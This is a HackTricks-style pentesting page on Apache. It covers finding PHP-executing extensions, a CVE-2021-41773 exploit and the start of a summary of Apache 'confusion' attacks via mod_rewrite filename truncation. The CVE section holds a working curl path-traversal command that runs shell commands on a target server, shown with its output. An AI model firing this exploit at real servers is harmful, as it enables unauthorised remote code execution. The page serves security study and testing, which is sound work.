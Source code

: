 # Apache

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)



## Executable PHP extensions

Check which extensions is executing the Apache server. To search them you can execute:

```bash
 grep -R -B1 "httpd-php" /etc/apache2
```

Also, some places where you can find this configuration is:

```bash
/etc/apache2/mods-available/php5.conf
/etc/apache2/mods-enabled/php5.conf
/etc/apache2/mods-available/php7.3.conf
/etc/apache2/mods-enabled/php7.3.conf
```

## CVE-2021-41773

{% code overflow="wrap" %}
```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```
{% endcode %}

## Confusion Attack <a href="#a-whole-new-attack-confusion-attack" id="a-whole-new-attack-confusion-attack"></a>

These types of attacks has been introduced and documented [**by Orange in this blog post**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1) and the following is a summary. The "confusion" attack basically abuses how the tens of modules that work together creating a Apache don't work perfectly synchronised and making some of them modify some unexpected data can cause a vulnerability in a later module.

### Filename Confusion

#### Truncation

The **`mod_rewrite`** will trim the content of `r->filename` after the character `?` ([_**modules/mappers/mod\_rewrite.c#L4141**_](https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod\_rewrite.c#L4141)). This isn't totally wrong as most modules will treat `r->filename` as an URL. Bur in other occasions this will be treated as file path, which would cause a problem.
